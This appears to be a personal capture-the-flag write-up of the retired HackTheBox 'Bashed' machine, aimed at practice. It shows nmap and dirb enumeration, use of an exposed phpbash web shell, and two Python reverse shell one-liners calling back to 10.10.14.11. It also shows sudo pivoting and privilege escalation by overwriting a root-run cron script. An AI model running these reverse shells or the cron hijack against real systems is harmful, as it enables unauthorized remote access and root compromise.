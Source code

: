 ```yaml
---
title: "HackTheBox: Bashed"
layout: archive
date:   2021-01-02
tags: HackTheBox
tags_label: true
---
```

This is a retired beginner-level box from hackthebox. I got stuck when I did it because I really overthought it, it is much simpler than you think. I am practicing with Retired HacktheBox Machines.

### Scanning:

Find running services, using nmap, ping sweep didn't work switched to stealth scan:

```
crazyeights@es-base:~$ nmap -PS 10.10.10.68
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-02 13:53 EST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 2.09 seconds

crazyeights@es-base:~$ sudo nmap -sS 10.10.10.68
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http
```

### Web:

Index Page:

![](/assets/images/22/s1.png)

Read the first post, and you will find that there is a web shell tool hosted somewhere on the server. If we find it we can try to get a reverse shell.

![](/assets/images/22/s2.png)  
  

##### Enumeration:

```
crazyeights@es-base:~$ dirb http://10.10.10.68

---- Scanning URL: http://10.10.10.68/ ----
==> DIRECTORY: http://10.10.10.68/css/                                         
==> DIRECTORY: http://10.10.10.68/dev/                                         
==> DIRECTORY: http://10.10.10.68/fonts/                                       
==> DIRECTORY: http://10.10.10.68/images/                                      
+ http://10.10.10.68/index.html (CODE:200|SIZE:7743)                           
==> DIRECTORY: http://10.10.10.68/js/                                          
==> DIRECTORY: http://10.10.10.68/php/                                         
+ http://10.10.10.68/server-status (CODE:403|SIZE:299)                         
==> DIRECTORY: http://10.10.10.68/uploads/       
```

### PHP Bash:

The phpbash web shell can be found in the folder dev:

![](/assets/images/22/s3.png)

Tried running several commands

![](/assets/images/22/s4.png)

*   There seemed to sometype of input sanitization that modified the commands before they were sent to the server (this might also not have been the case, other people didn't seem to have this problem when I looked after, I did a bunch of unecessary stuff to try to get it to work including creating a second webshell)
    
*   Used insomnia to bypasss this
    
Start a listener

```
nc -lvp 1234
```

Request to phpbash.php with insomnia:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](/assets/images/22/s5.png)

### User:

We get a shell:

```
crazyeights@es-base:~$ nc -lvp 1234
listening on [any] 1234 ...

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

There are two users on the machine:

```
$ cd /home
$ ls
arrexel
scriptmanager
```

##### Get user flag:

```
$ cd arrexel
$ ls
user.txt
$ cat user.txt
2c281_i_dont_want_to_get_in_trouble
```

### Root:

Find out if the user www-data can run any commands with elevated privileges:

```
sudo -l
```

www-data can run commands as scriptmanager without a password:

```
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Spawn a shell as the user scriptmanager:

```
$ sudo -u scriptmanager python3 -c 'import pty; pty.spawn("/bin/bash")'
scriptmanager@bashed:/var/www$ 
```

*   scriptmanager didnt seem to have an extra permissions

*   Searching for files owned by scriptmanager:

```
scriptmanager@bashed:~$ find / -user scriptmanager 2>/dev/null
find / -user scriptmanager 2>/dev/null
/scripts
/scripts/test.py
/home/scriptmanager
```

*   We find the folder scripts in the root dir. Its location suggests that it may be used for something...
    
*   In the folder we find the file test.txt which is owned by root
    
*   It was also recently modified suggesting there might be a cronjob for this folder:
    

```
scriptmanager@bashed:/scripts$ ls -lia
ls -lia
total 16
393492 drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
     2 drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
402847 -rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
393805 -rw-r--r--  1 root          root            12 Jan  2 12:05 test.txt
scriptmanager@bashed:/scripts
```

The file test.py must write to the file test.txt every couple minutes (?):

```
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!scriptmanager@bashed:/scripts$ 


testing 123!scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

*   Since the file test.txt is owned by root the file test.py must be run with root privileges

*   Since we can modify the file test.py we can insert a reverse shell

Start the listener:

```
nc -lvp 9999
```

Insert the reverse shell:

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.11",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > test.py
```

### Root:

```
crazyeights@es-base:~$ nc -lvp 9999
listening on [any] 9999 ...

 # id
uid=0(root) gid=0(root) groups=0(root)
```

#### Root Flag:

```
 # cd /root
 # ls
root.txt
 # cat root.txt
cc4f_i_dont_want_to_get_in_trouble
 # 
```

###### Finding the cronjob:

```
 # crontab -l
* * * * * cd /scripts; for f in *.py; do python "$f"; done
 # 
```

FIN. 🥳